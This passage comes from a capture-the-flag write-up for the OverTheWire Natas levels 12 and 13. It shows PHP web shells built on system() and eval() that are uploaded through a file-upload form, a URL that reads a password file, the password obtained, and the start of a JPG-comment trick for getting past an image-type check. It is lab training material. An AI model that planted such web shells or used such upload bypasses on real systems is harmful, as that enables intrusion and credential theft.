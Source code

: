 Let's hack! Inject a classic shell backdoor:
```html
<pre><?php system($_GET['backdoor']); ?></pre>
```
[http://natas12.natas.labs.overthewire.org/upload/pqpeihbpm7.php?backdoor=cat%20/etc/natas_webpass/natas13](http://natas12.natas.labs.overthewire.org/upload/pqpeihbpm7.php?backdoor=cat%20/etc/natas_webpass/natas13) gives `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.


We can also display other people's solutions: [http://natas12.natas.labs.overthewire.org/upload/000_floriancourgey_com_backdoor.php?backdoor=ls -alh](http://natas12.natas.labs.overthewire.org/upload/000_floriancourgey_com_backdoor.php?backdoor=ls -alh)

![](/assets/images/2018/12/overthewire-natas12-php-injection-list-solutions.jpg)

Or eval PHP code with `<pre><?php eval($_GET['backdoor_eval']); ?></pre>`
[http://natas12.natas.labs.overthewire.org/upload/ctu6g7y59k.php?backdoor_eval=phpinfo();](http://natas12.natas.labs.overthewire.org/upload/ctu6g7y59k.php?backdoor_eval=phpinfo();)

### Level 13 - File upload with `exif_imagetype()` security
```
http://natas13.natas.labs.overthewire.org/ natas13 jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

The security has been ~~slightly~~ enhanced:
- Check on `$_FILES[...]["error"]` (l. 46)
- The `MAX_FILE_SIZE` field is no longer used. The maximum file size is hardcoded as `1000` on server-side (l. 52)
- Check the file type with `exif_imagetype()` (l. 54) <-- this is the interesting part

Create a JPG image with just a pixel:
- Size 1x1
- 1 DPI
- JPG Quality 1

> You can download one here [overthewire-natas13-pixel.jpg](/assets/images/2018/12/overthewire-natas13-pixel.jpg)

Open it in any decent image editor, and add the payload as "comment". Example with GIMP `Image > Image properties`: